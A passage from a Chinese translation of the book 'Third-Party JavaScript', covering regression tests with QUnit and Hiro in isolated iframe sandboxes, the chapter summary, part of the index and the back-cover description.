列表 10.3 使用 QUnit 和 iframes 的隔离测试用例示例

图 10.6 QUnit 输出。绿色条表示所有测试都成功了——这意味着它们按照你的预期运行。这不错吗？

**243**

***测试***

```javascript
function assertJSON() {
var obj = {'chapter':'Testing',pages: [1, 2, 3] };
start();
equal(isolatedWin.JSON.stringify(obj),
'{"chapter":"Testing","pages":[1,2,3]}');
equal(isolatedWin.JSON.parse(isolatedWin.JSON.stringify(obj)), obj);
}
var interval = setInterval(function () {
if (isolatedWin.Prototype !== undefined) {
assertJSON();
clearInterval(interval);
document.body.removeChild(iframe);
iframe = null;
}
}, 10);
});
});
</script>
...

对于一个需要隔离 iframe 环境的单个回归测试，这段代码运行得很好。但如果你需要为多个回归测试重新创建这个环境，你会发现自己在重复地编写大量创建和打开 iframe 的代码。为了解决这个问题，你可以将 iframe 的创建和销毁代码移动到两个特殊的 QUnit 方法：`setup` 和 `teardown`。这些方法分别会在每个测试之前和之后调用，并在 QUnit 测试模块上声明：

```javascript
module("JSON/broken toJSON", {
setup: function () {
  /* ... */
},
teardown: function () {
  /* ... */
}
});
```

QUnit 是一个极好的通用 JavaScript 测试框架，但它从未为了第三方应用程序而编写。这意味着你必须手动创建、管理和清理 iframe 环境。幸运的是，还有另一个提供更好的 iframe 工具支持的测试框架。

### 10.2.3 使用 Hiro 编写回归测试

Hiro (`http://hirojs.com/`)——发音为 Hee-ro——是一个测试框架，它在独立的 iframe 沙箱中运行每个测试套件——一组测试，防止全局状态泄漏和冲突。Hiro 的使用模式与其他语言（如 Python (PyUnit) 和 Java (JUnit)）编写的测试框架相似，因此它应该看起来很熟悉。

第 10 章

## 调试与测试

熟悉。Hiro 是由 Disqus 的工程师开发的，旨在为我们的组件编写良好的回归测试。像 QUnit 一样，Hiro 是一个易安装的 JavaScript 库。只需下载该库，创建一个 HTML 文件，即可开始使用。在本节中，我们将重写之前的 JSON 回归测试，以使用 Hiro。

### 编写一个简单的 HIRO 测试用例

Hiro 中的测试套件使用 `hiro.module` 方法创建。该方法接受两个参数——包含测试套件名称的字符串，以及一个包含其实现的 JavaScript 对象：

```javascript
hiro.module("JSON Tests", {
setUp: function () { ... },
onTest: function () { ... },
testStringifyParse: function () {
  /* test implementation */
}
});
```

Hiro 通过函数的名称来识别测试函数——这些函数必须以 *test* 为前缀。所有其他方法都会被忽略，除非它们是特殊的钩子，如 `setUp` 或 `waitFor`。`setUp` 方法在每个测试套件之前运行一次，而 `onTest` 方法在每次测试执行之前运行。这些只是两个示例钩子；其他的可以在 Hiro 网站上找到。

Hiro 的特殊之处在于你不需要手动管理 iframes——Hiro 会为每个测试套件提供一个 iframe 沙箱。你只需要使用*测试固件*（test fixture）来定义 iframe 的内容即可。测试固件是指在运行测试之前加载的任何初始状态或数据。在 Hiro 中，固件是注入到你的测试套件所使用的 iframe 中的 HTML 标记。接下来的列表显示了一个使用 Hiro 在隔离环境中测试 JSON 功能的测试用例示例。

```html
<!DOCTYPE html>
<html>
<head>
  <title>Camera Stork Tests</title>
  <link rel="stylesheet" href="bootstrap.css">
  <link rel="stylesheet" href="webui.css">
  <script src="underscore.js"></script>
  <script src="jquery.js"></script>
  <script src="hiro.js"></script>
  <script src="webui.js"></script>
</head>
<body onload="main()">
  <div class="container">
    ...
  </div>
</body>
</html>
```

列表 10.4：使用 Hiro 测试框架的测试用例示例。

| 加载 Hiro 和应用程序文件 | Hiro 样板代码 |
| :--- | :--- |

### 测试

***测试***

```html
<script data-name="clean" type="hiro/fixture">
<html>
<head>
  <script src="stork/lib.js"></script>
</head>
</html>
</script>

<script>
hiro.module("JSONTests", {
setUp: function () {
  this.loadFixture({ name: 'clean' });
},
testStringifyParse: function (test) {
  test.expect(2);
  var obj = {'chapter':'Testing',pages: [1, 2, 3] };
  test.assertEqual(
    this.window.Stork.JSON.stringify(obj),
    '{"chapter":"Testing","pages":[1,2,3]}'
  );
  test.assertEqual(this.window.Stork.JSON.parse(
    this.window.JSON.stringify(obj)), obj);
}
});
</script>
</body>
</html>
```

### 在多 IFRAME 环境下测试

你刚刚使用 Hiro 在一个运行完美的 iframe 沙箱中测试了 JSON 功能。但请记住，你想覆盖两种情况：当宿主页面覆盖了 `toJSON` 时以及当它没有覆盖时。

Hiro 使用所谓的*混入*（mixins）轻松地实现了这一点。你不需要将测试函数复制并粘贴到不同的测试套件中，而是可以使用混入在完全不同的 iframe 环境中运行你的原始测试套件——该环境定义了一个损坏的 `Object.prototype.toJSON` 实现。要实现这一点，你首先需要第二个 HTML 固件来定义这个环境：

```html
<script data-name="overwritten" type="hiro/fixture">
<html>
<head>
  <script src="stork/lib.js"></script>
  <script>
    Object.prototype.toJSON = function () {
      return '';
    };
    var isReady = true;
  </script>
</head>
</html>
</script>
```

- HTML 固件存储在具有特殊 `hiro/fixture` 类型的 script 元素中。
- 与 QUnit 相同：针对隔离的文件运行断言。

现在，你可以创建一个新的测试套件来加载此固件，同时通过 `mixin` 属性指示原始的 `JSONTests` 模块应该被混入：

```javascript
hiro.module("JSONTestsPrototype", {
mixin: ["JSONTests"],
setUp: function () {
  this.loadFixture({ name: 'overwritten' });
}
});
```


砰！现在当你在浏览器中运行生成的 HTML 时，你应该会看到类似于图 10.7 的内容。

之前我们提到 Hiro 是按每个*测试套件*生成 iframe 环境，而不是每个每个单独的测试函数。虽然为每个测试准备独立的 iframe 是理想的，但我们发现不断创建和销毁 iframe 对浏览器来说代价很大。我们选择这种折中方案是为了让我们的测试在合理的时间完成。没有比运行缓慢的测试套件更糟糕的了！

### 10.3 总结

测试和调试是大多数开发者不情愿做的。调试是有意义的——毕竟，如果你正在调试，意味着有一个 bug，有人发现了它，而且这个人可能对整个局面感到不悦。但现在你已经知道了如何处理第三方组件中的 bug，你就能将所有碎片整合起来并更快地修复下一个 bug。此外，你还知道如何以一种不干扰但极有帮助的方式设置你的测试和调试环境。

 图 10.7 Hiro 输出示例：每个套件周围的绿色框表示它们都成功通过了。再次，一切都按预期运行。

尽管调试并不愉快，但编写测试是有趣的！在本章涵盖了两个测试框架：QUnit 和 Hiro。学会如何使用其中任何一个就足够用测试来覆盖你组件的功能了。所以，去写一些测试吧！你越早开始，在实现新功能和更改代码时你的心里就越有信心。而你越有信心，与第三方应用程序迭代的速度就越快。下一步是什么？盈利！

## 251

## 索引

- 使用 `setTimeout` 函数延迟计算 218–220
- HTTP 请求 208–213
- 延迟加载图片 210–213
- 延迟加载组件主体 209–210
- 概述 28, 30, 208
- DELETE HTTP 请求 86
- 拒绝服务。*参见 *DoS***
- `destroy` 方法 129
- 开发环境，跨域模拟的配置
    - 设置 Web 服务器 23
    - 模拟多个域名 24–25
    - 用于 23 的测试页面
- 禁用第三方 Cookie 134–136
- Disqus 2
- div 元素 27, 51, 61, 64
- Django 166, 232
- 文档对象 73, 89
- 文档对象模型（Document Object Model）。*参见 *DOM***
- 文档，更改源 89–90
- 美元符号 ($) 字符 31
- DOM (Document Object Model)
    - 注入 CSS 到 60–61
    - 概述 4, 19
- dom 命名空间 35
- domain 属性 89–90, 93, 98
- DOMContentLoaded 事件 223
- DoS (拒绝服务) 170
- 动态插入脚本 29–30

## E

- easyXDM 库 120
    - 加载 121–123
    - 远程过程调用 125–129
    - 发送消息 123–124
- 元素 64
- em 元素 159
- 嵌入组件
    - 概述 6–8
    - 天气组件示例
    - 作为 iframe 分发 16–17
    - 服务端 JavaScript 生成 14–16
- errorception 226
- `eval` 函数 109
- *更快的网站（Even Faster Web Sites）* 204
- 事件库，自定义 181–182
- 事件监听器 180–182
- ExceptionHub 226
- Expires Header 207–208
- 外部 iframe 70–71
- ExternalInterface 类 118

## F

- Facebook Graph API 10–12
- FB.api 193
- 功能开关 230–233
- 在脚本中获取数据 45–47
- Firesheep 147
- Flash
    - 隐藏对象 120
    - 对象 80, 112, 121
    - 发送消息 118–120
    - 内容闪烁（flash of unstyled content）。*参见 *FOUC***
- FlashTransport 120
- 灵活性 17
- :focus 选择器 63
- 伪造头部 199
- form 元素 94
- FOUC (无样式内容闪烁) 56
- 片段标识符 41, 116
- frame 元素 68
- frameElement 属性 121
- framekiller 脚本 169
- frameset 元素 68

## G

- Gargoyle 232
- GET HTTP 请求 86
- getAttribute 函数 43
- getElementById 函数 51
- getElementsByTagName 函数 40
- 全局对象 31
- 全局变量数组 44–45
- 全局变量 43–45
- Google Android  103, 111
- Google Chrome 29, 100, 103, 111, 135, 233
- Google Chrome Frame 112
- Google Closure Compiler 205
- Google Maps 6–8
- Google Page Speed 66
- Grossman, Jeremiah 164

## H

- Handlebars.js 51
- hash 属性 120
- head 元素 18, 27, 93, 159
- 隐藏对象 120
- *高性能 JavaScript（High Performance JavaScript）* 214
- *高性能网站（High Performance Web Sites）* 30, 204
- Hiro 243–246
- :hover 选择器 63
- href 属性 39–40, 197
- HTML 文件 23

## 252

## 索引

- HTML5 库 70
- HTMLElement 属性 145
- HTTP 请求，延迟加载 208–213
    - 延迟加载图片 210–213
    - 延迟加载组件主体 209–210
- HTTPS (超文本传输协议) 39, 148–149
- 超文本传输协议。*参见 *HTTPS***

## I

- ICANN (互联网数字分配机构) 24
- 识别发布者
    - 授权域名 196
    - 伪造头部和未授权访问 199
    - 隧道文件和 Referer Header 197–198
    - 漏洞 199
- IDL (接口定义语言) 108
- IETF (互联网工程任务组) 197
- iframe 107
    - 身份验证页面 146
    - 组合资源 205
    - Safari Cookie 解决方案 144–146
    - 作为组件分发 16–17
    - 嵌入 66–76
    - 外部 iframe 70–71
    - 无 src iframe 68–70
    - 历史 68
    - 样式继承 71–74
    - 将样式应用于 iframe 73–74
    - 页面样式检测 71–73
    - 何时使用 75–76
- Image 对象 155
- 图片雪集 206
- img 元素 207, 211
- !important 关键字 57, 61, 63–64, 66, 75
- input 元素 94
- 动态插入脚本 29–30
- 集成测试 239–240
- 接口定义语言。*参见 *IDL***
- 互联网数字分配机构。*参见 *ICANN***
- 互联网工程任务组。*参见 *IETF***
- Internet Explorer
    - 子域名代理 97–98
    - 以及三方 Cookie 136–138
    - 以及 window.name 属性 115
    - 怪异模式 69
- 互联网安全报告 154
- iOS Safari 103, 111, 135

## J

- jQuery 36
- JSON (JavaScript 对象表示)。*参见 *JSON***
- JSONP (带填充的 JSON) 18, 163–164
    - 局限性 86–88
    - 组合子域名代理 94–97
    - 从脚本元素加载 82–84
    - 同源策略 80–82
- JSON-RPC 接口 122
- JUnit 243

## L

- LESS 处理器 65
- load 事件 57, 83, 177
    - 额外的 JavaScript 文件 34–36
    - 阻塞脚本包含 26–27
    - 动态插入脚本 29–30
    - 非阻塞脚本包含 27–29
- localStorage 139
- location 属性 115

## 253

## 索引

- 中间人攻击。*参见 *MITM***
- MITM (中间人攻击) 154
- Mixpanel 9–10
- 模块，将代码组织成 36
- Mozilla Firefox 29, 100, 103, 111, 135
- 多级身份验证 149–151
- name 属性 94
- name 属性 120–121
- 原生函数 236–237
- noframe 元素 68

## O

- OAuth 200
- onload 事件 7
- onmessage 事件 106
- Opera 103, 111, 135
- Origin Header 99–101
- Origin 属性 109
- 输出内容
    - 附加页面 50–52
    - 多个位置 52–53
    - 一次加载代码 54–55
    - 过度指定 CSS 64–66
    - 样式处理 55–61

## P

- P3P (隐私偏好协议) 136–138
- 参数传递 45
- 父属性 121
- 解析函数 83, 129
- 被动脚本 8
- 载负载 203
- 感知性能
    - 乐观操作 220–222
    - 文档就绪前渲染 222–223
- 性能与 UI 线程 214–215
- 文件缓存 207–208
- 防抖函数 215–218
- 使用 `setTimeout` 函数延迟计算 218–220
- 延迟 HTTP 请求 208–213
- 延迟加载图片 210–213
- 延迟加载组件主体 209–210
- 代码压缩 204–205
- 减少图片请求 205–207
- 图片雪集 206
- 内联图片 206
- 流函数 215–218
- PHP 14
- Pingdom 36
- 隐私偏好协议。*参见 *P3P***
- 弹出窗口
- POST HTTP 请求 86
- PUT 请求 86

## 254

## 索引

- 预回调 178
- 预检请求 102–103
- 生产环境，代码服务 36
- 代理模块 227–228
- 功能开关 230–233
- Prototype.js 36
- Ruby on Rails 14

## R

- 竞态条件 53
- 读取 Cookie 133–134
- readyState 事件 177
- 接收消息 109–110
- Referer Header 167–168
- 重流 214
- 回归测试 240
- RequireJS 38
- 重写模块 227–228
- 重写代理 227–228
- RPC (远程过程调用) 124–129, 138

## S

- 同源策略 80–82
- 净化 159
- 脚本元素 16, 51, 81, 84, 86, 159, 163, 165
- 滚动事件 209, 215
- 安全参数 149
- 安全与 Cookie 153–154
- 会话 147–151

## XSRF

- 使用攻击 161–163
- 防御攻击 164–166
- JSON 劫持 163–164

这是一门编写第三方 JavaScript 的艺术——即可以嵌入任何网站的嵌入式脚本。这些脚本必须适应未知环境，与其他应用程序共存，并处理当代码和文件从远程地址提供时出现的各种棘手漏洞。掌握了这一点，你在分发应用程序时将拥有无限的选择。

《第三方 JavaScript》（Third-Party JavaScript）将引导你深入了解构建全功能第三方应用的方方面面。你将学习开发小组件的技巧，用于收集分析数据、提供实用的覆盖层和对话框，或实现聊天和评论等功能。书中的概念和示例均代表了这一新兴领域的最佳实践，这些实践基于数千小时的实战经验以及数百万用户的结果。

本书内容：
● 编写无冲突的 JavaScript、HTML 和 CSS
● 从浏览器发起跨域请求
● 如何克服第三方 Cookie 的限制
● 第三方应用程序的安全漏洞

本书专为熟悉 JavaScript 的 Web 开发者编写，无需具备关于第三方应用的先验知识。Ben Vinegar 是 Disqus（一个第三方评论平台）的工程师；Anton Kovalyov 是 Mozilla 的软件工程师。他们都是第三方应用专家，其工作已在数百万个网站上发布。书主可以访问 manning.com/Third-PartyJavaScript 下载 PDF、ePub 和 Kindle 格式的免费电子书。

$44.99 / 加元 $47.99 [包含电子书]
